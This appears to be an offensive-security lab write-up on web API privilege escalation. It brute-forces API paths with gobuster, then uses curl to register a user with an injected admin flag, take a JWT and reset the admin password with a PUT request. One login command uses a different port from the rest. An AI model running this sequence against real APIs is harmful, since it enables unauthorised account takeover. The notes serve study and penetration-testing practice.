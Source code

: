 ```yaml
---
layout: post
title: API Priv Escalation
titledate: 08/25/23
tags: ["infosec","offsec","web", "api", "gobuster", "burpsuite"]
---
```


<h4>Brute Force with Gobuster</h4>

We can use Gobuster to brute force APIs by creating a pattern file
    {GOBUSTER}/v1
    {GOBUSTER}/v2

    $ gobuster dir -u http://192.168.128.20:2002 -w /usr/share/wordlists/dirb/big.txt -p pattern

We can then use curl to inspect the APIs that get returned

    $ curl -i http://192.168.128.20:2002/users/v1

From our response we get many users so we can take a look at what apis they have access to

    $ gobuster dir -u http://192.168.128.20:2002/users/v1/admin/ -w /usr/share/wordlists/dirb/small.txt

If we examine the password API

    $ curl -i http://192.168.128.20:2002/users/v1/admin/password

we get METHOD NOT ALLOWED indicating the API exists for the user but the GET method we are using is not supported
so we can try other HTTP methods to see what is supported

here we check if a certain api is supported for a user 

    $ curl -i http://192.168.128.20:2002/users/v1/login

    "USER NOT FOUND"

This response means the api exists but not for the user

We can use curl to pass an HTTP POST with json arguments for the admin user

    $ curl -d '{"password":"fake","username":"admin"}' -H 'Content-Type: application/json'  http://192.168.128.20:2002/users/v1/login

In this example the login fails with password incorrect, but indicates we have correct json login parameters for the api

<h4>User PRIV Escalation</h4>

One idea is to try and create a new user account with admin priveleges. From here maybe we can gain access and alter the existing admin account access

    $ curl -d '{"password":"lab","username":"dlo","email":"pwn@dlo.com","admin":"True"}' -H 'Content-Type: application/json' http://192.168.128.20:2002/users/v1/register

We correctly form the HTTP request with the username and password json parameters and all required other parameters but pass the parameter admin to test if it allows this

If we get a successful account creation, we can try to login with our newly created admin account

    $ curl -d '{"password":"lab","username":"dlo"}' -H 'Content-Type: application/json'  http://192.168.128.20:5002/users/v1/login

The response here will give us a JWT authentication token

Now we can try to login as the admin account with our new admin auth token and update the admin password

    $ curl  \
  'http://192.168.128.20:2002/users/v1/admin/password' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzEyMDEsImlhdCI6MTY0OTI3MDkwMSwic3ViIjoib2Zmc2VjIn0.MYbSaiBkYpUGOTH-tw6ltzW0jNABCDACR3_FdYLRkew' \
  -d '{"password": "pwned"}'

In this case we get method not allowed as a response so we can try an alternate HTTP method like PUT

    curl -X 'PUT' \
  'http://192.168.128.20:2002/users/v1/admin/password' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzE3OTQsImlhdCI6MTY0OTI3MTQ5NCwic3ViIjoib2Zmc2VjIn0.OeZH1rEcrZ5F0QqLb8IHbJI7f9KaRAkrywoaRUAsgA4' \
  -d '{"password": "pwned"}'

If this works we should be able to login as the admin account via the api with our newly changed password

    $ curl -d '{"password":"pwned","username":"admin"}' -H 'Content-Type: application/json'  http://192.168.128.20:2002/users/v1/login


<h4>Burpsuite API Testing</h4>

Burpsuite can be very useful in enumerating apis and allowing for quick testing of requests and responses. It will keep track of all of them in the sitemap for quick access






